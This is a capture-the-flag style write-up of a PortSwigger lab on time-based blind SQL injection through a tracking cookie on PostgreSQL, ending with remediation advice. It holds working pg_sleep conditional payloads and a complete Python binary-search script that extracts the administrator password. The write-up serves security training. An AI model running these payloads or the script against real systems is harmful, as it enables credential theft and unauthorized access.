


**Category:** SQL Injection  
**Difficulty:** Practitioner  
**Status:** ✅ Solved  
**Lab Link:** [PortSwigger Lab](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval)

---

## Objective

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

---

## Background

Time-based blind SQL injection with information retrieval is an advanced attack technique that exploits synchronous query execution to extract data character-by-character through response time analysis. This vulnerability occurs when user input is concatenated into SQL queries without proper sanitization, and the application provides no visible feedback—only execution time reveals information. By combining conditional time delays with binary search algorithms, attackers can systematically extract sensitive data even when results, errors, and boolean conditions are completely hidden.

---

## My Approach

### Step 1: Confirm the Injection Point

Using Burp Suite Repeater, I confirmed that the `TrackingId` cookie is vulnerable to SQL injection. Since the application provides no visible feedback (no results, no errors, no behavioral changes), I needed to use time-based techniques.

### Step 2: Test Time Delay Function

I tested PostgreSQL's `pg_sleep()` function to confirm the database type and injection capability:

```
TrackingId=xyz'; SELECT pg_sleep(5)--
```

If the response took ~5 seconds, it confirmed:
- The database is PostgreSQL
- Stacked queries are supported (semicolon works)
- Time-based injection is possible

### Step 3: Understand the Conditional Time Delay Technique

Unlike Lab 14 (simple delay), this lab requires **conditional** delays to extract data. I used a `CASE WHEN` statement:

```sql
SELECT CASE WHEN (condition) THEN pg_sleep(5) ELSE pg_sleep(0) END
```

This creates a binary signal:
- **Condition TRUE** → 5-second delay
- **Condition FALSE** → Immediate response

### Step 4: Extract Password Length

Before extracting characters, I determined the password length:

```
TrackingId=xyz'; SELECT CASE WHEN ((SELECT LENGTH(password) FROM users WHERE username='administrator') = 20) THEN pg_sleep(5) ELSE pg_sleep(0) END--
```

By testing different lengths, I confirmed the password is **20 characters long**.

### Step 5: Automated Character Extraction with Binary Search

Manual extraction would require hundreds of requests. I wrote a Python script using binary search to efficiently extract each character:

**How Binary Search Works:**
1. Test ASCII range: 32-126 (printable characters)
2. Calculate midpoint: `(low + high) // 2`
3. Inject: `ASCII(SUBSTRING(password, position, 1)) > mid`
4. If delay ≥ 5 seconds → character code > mid → set `low = mid + 1`
5. If response is quick → character code ≤ mid → set `high = mid`
6. Repeat until `low == high` → found the character
7. Move to next position

**Python Script:**
```python
import requests
from urllib.parse import quote

url = "https://<LAB-ID>.web-security-academy.net/"
SESSION = ""
TRACKING_BASE = ""

password = ""

print("[*] Starting Time-Based Blind SQLi...")
for position in range(1, 21):
    low, high = 32, 126
    
    while low < high:
        mid = (low + high) // 2
        
        payload = f"{TRACKING_BASE}'; SELECT CASE WHEN (ASCII(SUBSTRING((SELECT password FROM users WHERE username='administrator'),{position},1)) > {mid}) THEN pg_sleep(5) ELSE pg_sleep(0) END--"
       
        encoded_payload = quote(payload) 
        cookies = {
            "TrackingId": encoded_payload,
            "session": SESSION 
        }
   
        response = requests.get(url, cookies=cookies)
        elapsed_time = response.elapsed.total_seconds()
        
        if elapsed_time >= 5:
            low = mid + 1  # TRUE: character code > mid
        else:
            high = mid      # FALSE: character code <= mid
            
    password += chr(low)
    print(f"[+] Position {position} found: {chr(low)} → current: {password}")

print(f"\n[🎉] Full password: {password}")
```

**Script Output:**
```bash
$ python 15-blindsql.py
[*] Starting Time-Based Blind SQLi...
[+] Position 1 found: q → current: q
[+] Position 2 found: 7 → current: q7
[+] Position 3 found: 1 → current: q71
...
[+] Position 20 found: d → current: q71lydylyva0ybdyazad

[🎉] Full password: q71lydylyva0ybdyazad
```

### Step 6: Manual Testing with Burp Suite Hackvertor

For manual testing, I used **Hackvertor** in Burp Suite to URL-encode the payload:

```
TrackingId=<TRACKING_ID>'; SELECT CASE WHEN ((SELECT LENGTH(password) FROM users WHERE username='administrator') = 20) THEN pg_sleep(10) ELSE pg_sleep(0) END--
```

Hackvertor automatically encoded special characters, making the payload work correctly in the cookie.




### Step 7: Log In as Administrator

I navigated to **My Account** and logged in with:
- **Username:** `administrator`
- **Password:** `q71lydylyva0ybdyazad`

---

## Payload Used

### Basic Time Delay Test
```URL
Cookie: TrackingId=<ID>'; SELECT pg_sleep(5)--
```

### Password Length Enumeration
```URL
Cookie: TrackingId=<ID>'; SELECT CASE WHEN ((SELECT LENGTH(password) FROM users WHERE username='administrator') = 20) THEN pg_sleep(5) ELSE pg_sleep(0) END--
```

### Character Extraction (Single Position - Manual)
```URL
Cookie: TrackingId=<ID>'; SELECT CASE WHEN (ASCII(SUBSTRING((SELECT password FROM users WHERE username='administrator'),1,1)) > 100) THEN pg_sleep(5) ELSE pg_sleep(0) END--
```

### Automated Extraction (Python Script)
```URL
Cookie: TrackingId=<ID>'; SELECT CASE WHEN (ASCII(SUBSTRING((SELECT password FROM users WHERE username='administrator'),{position},1)) > {mid}) THEN pg_sleep(5) ELSE pg_sleep(0) END--
```

**Payload Components:**
- `';` — Closes the original parameter and starts a new query (stacked query)
- `SELECT CASE WHEN ... THEN ... ELSE ... END` — Conditional logic
- `ASCII(SUBSTRING(..., position, 1))` — Extracts ASCII code of one character
- `> {mid}` — Binary search comparison
- `pg_sleep(5)` — 5-second delay if TRUE
- `pg_sleep(0)` — No delay if FALSE
- `--` — SQL comment to neutralize the rest of the query

---

## Why It Worked

The application executes a SQL query using the tracking cookie value without proper sanitization. Unlike previous labs, this one provides **zero feedback**—no results, no errors, no behavioral changes. However, the query executes synchronously, meaning response time becomes the only signal.

### Attack Breakdown

| Component | Purpose |
|-----------|---------|
| `';` | Closes the original cookie value and initiates a stacked query |
| `SELECT CASE WHEN ... THEN ... ELSE ... END` | Conditional execution—triggers delay only if condition is TRUE |
| `ASCII(SUBSTRING((SELECT password ...), position, 1))` | Extracts one character at a time and converts it to ASCII code |
| `> {mid}` | Binary search comparison—tests if character code is greater than midpoint |
| `pg_sleep(5)` | PostgreSQL function causing 5-second delay (TRUE signal) |
| `pg_sleep(0)` | No delay (FALSE signal) |
| `--` | SQL comment sequence that neutralizes the rest of the original query |

### Why Binary Search is Essential

| Method | Requests per Character | Total Requests (20 chars) | Time Estimate |
|--------|----------------------|--------------------------|---------------|
| **Brute Force** (try all 95 chars) | ~95 | ~1,900 | ~9,500 seconds (2.6 hours) |
| **Linear Search** (1, 2, 3...) | ~63 (avg) | ~1,260 | ~6,300 seconds (1.75 hours) |
| **Binary Search** (divide & conquer) | ~7 (log₂95) | ~140 | ~700 seconds (12 minutes) |

Binary search reduces extraction time by **93%** compared to brute force!

The attack succeeded because:

1. **Injection point identified** (tracking cookie is vulnerable)
2. **Stacked queries supported** (semicolon allows multiple queries)
3. **PostgreSQL detected** (`pg_sleep()` function works)
4. **Synchronous execution** (application waits for query completion)
5. **Time-based feedback** (response time reveals TRUE/FALSE)
6. **Binary search automation** (Python script extracts data efficiently)
7. **No rate limiting** (lab allows rapid requests)

---

## How to Fix It

The only reliable defense is to **use parameterized queries (prepared statements)**. This ensures user input is treated as data, not executable code.

See [Lab 1: SQL Injection Fundamentals](1.%20SQL%20injection%20vulnerability%20in%20WHERE%20clause%20allowing%20retrieval%20of%20hidden%20data.md) for language-specific examples.

### Additional Recommendations

| Defense | Description |
|---------|-------------|
| **Parameterized Queries** | Always use placeholders instead of concatenating user input (including cookies!) |
| **Asynchronous Query Execution** | Execute analytics queries asynchronously to prevent timing attacks |
| **Rate Limiting** | Implement request throttling to slow down automated attacks (e.g., max 10 requests/minute per IP) |
| **Response Time Monitoring** | Detect and block requests with abnormal execution times |
| **Input Validation** | Validate cookie format and reject unexpected values |
| **Web Application Firewall (WAF)** | Deploy a WAF to detect and block SQL injection patterns |

---

## Key Takeaway

> Time-based blind SQL injection with information retrieval is the most advanced and challenging SQL injection technique—it requires **automation** and **binary search** to extract data efficiently through response timing alone. This lab demonstrates that even when an application provides zero visible feedback, attackers can still extract sensitive data character-by-character using conditional time delays. Always use **parameterized queries** for ALL user input, implement rate limiting to slow down automated attacks, and execute sensitive queries asynchronously to prevent timing-based exploitation. Remember: if you can control query execution time, you can extract any data from the database.
